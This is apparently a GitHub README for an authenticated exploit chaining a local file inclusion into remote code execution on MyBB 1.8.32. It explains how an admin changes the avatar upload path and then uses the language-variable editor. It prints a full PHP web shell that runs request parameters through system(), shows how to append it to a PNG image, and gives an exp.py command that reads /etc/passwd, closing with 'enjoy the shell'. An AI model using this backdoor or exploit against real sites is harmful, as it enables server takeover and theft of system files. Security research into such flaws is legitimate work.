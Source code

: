 # MyBB 1.8.32 - Chained LFI Remote Code Execution (RCE) (Authenticated)

 - exploit database exp [MyBB 1.8.32 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/51213)
 - detailed analyse to [mybb 1.8.32 代码审计 + LFI RCE 复现](https://fdlucifer.github.io/2023/01/17/mybb1-8-32-LFI-RCE/)

(1). An RCE can be obtained on MyBB's Admin CP in Configuration -> Profile Options -> Avatar Upload Path. to change Avatar Upload Path to /inc to bypass blacklist upload dir.

(2). after doing that, then we are able to chain in "admin avatar upload" page: http://www.mybb1832.cn/admin/index.php?module=user-users&action=edit&uid=1#tab_avatar, and LFI in "Edit Language Variables" page: http://www.mybb1832.cn/admin/index.php?module=config-languages&action=edit&lang=english.

(3). This chained bugs can lead to Authenticated RCE.
(note). The user must have rights to add or update settings and update Avatar. This is tested on MyBB 1.8.32.

## Exp Usage:

1. first choose a png file that size less than 1kb
2. then merge the png file with a php simple backdoor file using the following commands

``` bash
mac@xxx-2 php-backdoor % cat simple-backdoor.php 
<?php
if(isset($_REQUEST['cmd'])){
        echo "<getshell success>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "<getshell success>";
        phpinfo();
}
?>
mac@xxx-2 php-backdoor % ls     
simple-backdoor.php     test.png
mac@xxx-2 php-backdoor % cat simple-backdoor.php >> test.png 
mac@xxx-2 php-backdoor % file test.png 
test.png: PNG image data, 16 x 16, 8-bit/color RGBA, non-interlaced
```

3. finally run the following commands to run the exp script to get RCE output! enjoy the shell...

``` bash
python3 exp.py --host http://www.xxx.cn --username admin --password xxx --email xxx@qq.com --file avatar_1.png --cmd "cat /etc/passwd"
```

 - ![](img/1.png)
 - ![](img/2.png)
 - ![](img/3.png)

## reference

 - [mybb 1.8.32 RCE in admin panel report](https://twitter.com/yelang123x/status/1613433380980547584)
 - [MyBB](https://en.wikipedia.org/wiki/MyBB)
 - [MyBB github](https://github.com/mybb/mybb)
 - [记一次mybb代码审计](https://xz.aliyun.com/t/7213)
 - [mybb bugs in exploit database](https://www.exploit-db.com/search?q=mybb&type=webapps&platform=php)
